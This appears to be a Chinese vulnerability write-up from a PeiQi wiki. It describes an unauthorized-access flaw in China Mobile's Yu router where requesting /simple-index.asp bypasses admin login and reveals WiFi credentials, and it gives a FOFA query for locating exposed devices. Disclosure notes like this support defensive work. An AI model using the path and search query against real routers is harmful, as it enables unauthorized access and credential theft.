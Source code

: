 ```yaml
---
title: 中国移动 禹路由 simple-index.asp 越权访问漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - 中国移动
---
```


# 中国移动 禹路由 simple-index.asp 越权访问漏洞

## 漏洞描述

中国移动 禹路由 simple-index.asp 存在越权访问漏洞，攻击者通过漏洞可以获取账号密码等敏感信息

## 漏洞影响

> [!NOTE]
>
> 中国移动 禹路由

## FOFA

> [!NOTE]
>
> title="互联世界 物联未来-登录"

## 漏洞复现

登录页面如下

![image-20210618173233203](/img/20210924020314932354.png)

访问Url

```
/simple-index.asp
```

​	![image-20210618173314789](/img/20210924020315091288.png)

越过管理员验证获取Wifl账号密码等信息